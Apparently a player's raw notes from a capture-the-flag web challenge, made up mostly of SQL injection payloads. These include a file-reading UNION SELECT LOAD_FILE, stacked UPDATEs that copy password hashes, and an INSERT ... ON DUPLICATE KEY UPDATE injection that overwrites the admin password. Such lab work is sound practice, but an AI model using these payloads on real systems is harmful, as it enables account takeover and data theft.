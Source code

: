 # Web 3 - Attempt 2

register barrett:password
register guest:guest

register '; update users set password=(select password from users where username='barrett') where username='guest'--
  : sqli1

register ' union select password from users where username='barrett' union select "FAIL" from users
  : sqli2

register ' union select password,"FAIL" from users where username='barrett'
  : sqli3

register ' or 1=1; update users set password=(select password from users where username='barrett') where username='guest'--
  : sqli4

login '; select password from users where username='barrett' and "FAIL"



```txt
register ' UNION ALL SELECT LOAD_FILE('/flag.txt') --
  : sqli5

.eJwdyk0TgUAcgPHv0p1ZEXJjtfmvXpR2J920UeulDCWb8d0Zh-f0e97avqkLbaYdFC1SW0hfUmAdDDwJDyhDQ2AYw_kWc0zN_m8aCJ2r9ErqZPsDKXLODBqhUR6wlwvEI5HFlxwv3AgRK0YJjSxWUWVeU5uUThmOMixugFENspVJXLRwql7eaaf_65hxDPrpJjOr8JE3MHWGyJYyuFurs5oY7VrpToN7buk_k4sf4rn2-QI7rT_V.Y1b8pw.utMKxhrVP9LsDuhUy8fDEBV3zwI

flask-unsign --decode --cookie '.eJwdyk0TgUAcgPHv0p1ZEXJjtfmvXpR2J920UeulDCWb8d0Zh-f0e97avqkLbaYdFC1SW0hfUmAdDDwJDyhDQ2AYw_kWc0zN_m8aCJ2r9ErqZPsDKXLODBqhUR6wlwvEI5HFlxwv3AgRK0YJjSxWUWVeU5uUThmOMixugFENspVJXLRwql7eaaf_65hxDPrpJjOr8JE3MHWGyJYyuFurs5oY7VrpToN7buk_k4sf4rn2-QI7rT_V.Y1b8pw.utMKxhrVP9LsDuhUy8fDEBV3zwI'

{'auth': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IicgVU5JT04gQUxMIFNFTEVDVCBMT0FEX0ZJTEUoJy9mbGFnLnR4dCcpIC0tIiwiZXhwIjoxNjY2NjY2NzU5fQ.bPd9oRsguI8L30GiiQrEHky75wKy2LuC-MnOvZlORCA'}

{
  "username": "' UNION ALL SELECT LOAD_FILE('/flag.txt') --",
  "exp": 1666666759
}
```

```txt
# register
SELECT * FROM users WHERE username = %s

# login
SELECT password FROM users WHERE username = %s
```

```txt

register ' UNION ALL SELECT LOAD_FILE('/flag.txt') where "FAILME"
  : sqli6

# spills this...who's hash is it though?
$2b$12$cgo18biyFjTIBDHnGBOPtOsIYUEetWT30lqa7yvH2rHtKBPlRZH5y

```

```txt
MySQL truncation.... 'admin' and 'admin ' are considered the same thing

registed 'admin a':password => nothing

username column 255

register 'admin                                                                                                                                                                                                                                                          a'
  : password
# nope
```


```txt
register admin_1:password


exists = query_db('SELECT * FROM users WHERE username = %s', (username,))

query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')


'admin','') on duplicate key update password=(select password from users where username='guest')
  : wasd


'admin',(select password from users where username='guest')) on duplicate key update username='admin'--

"'admin'") on duplicate key update username='admin',password=(select password from users where username='guest')

'admin"' '"', 




HTB{f4k3_fl4g_f0r_t3st1ng}



junk_user"="junk_user","junk_pwd") UNION ALL select 'admin','bad_hash' ON DUPLICATE KEY UPDATE password = '$2b$12$T3nsWxG0a35/HoNFjJWQUOrv8NEuKwCR1IIRtSt3YhcUyr5y1lVdy' -- -



guest: $2b$12$T3nsWxG0a35/HoNFjJWQUOrv8NEuKwCR1IIRtSt3YhcUyr5y1lVdy

barrett"="barrett" and (1+1) or 'barrett',"$2b$12$tcuJtAuHYkD/Gdmm0FgpT.GZNTWm/HuL6jJlLXU38rmhCMhMglrlq") union all select 'admin','wasd' on duplicate key update password = '' --
```

added query logging to /query-log.txt in container
```python
with open('/app/query.txt', 'w+') as f:
        f.write(str(cursor._executed))
```


```txt
# GOT IT

get bcrypt hash of 'guest';  user:guest&",password:guest

login with

user:
junk_user"="junk_user","junk_pwd") UNION ALL SELECT 'admin','bad_hash' ON DUPLICATE KEY UPDATE password='$2b$12$SjYVDPHynwz1i4auamtyvueWvoGm4PgMheAVZb2J5xDOamwvU2sJ2'-- "

password:
guest
```

```txt
guest&"
$2b$12$QWO1wGzUA7.7N3PNmiCruuLyQVuCTlunOE24zry0J1zGZHUauVARG

user:
junk_user"="junk_user","junk_pwd") UNION ALL SELECT 'admin','bad_hash' ON DUPLICATE KEY UPDATE password='$2b$12$QWO1wGzUA7.7N3PNmiCruuLyQVuCTlunOE24zry0J1zGZHUauVARG'-- "

password:
guest
```


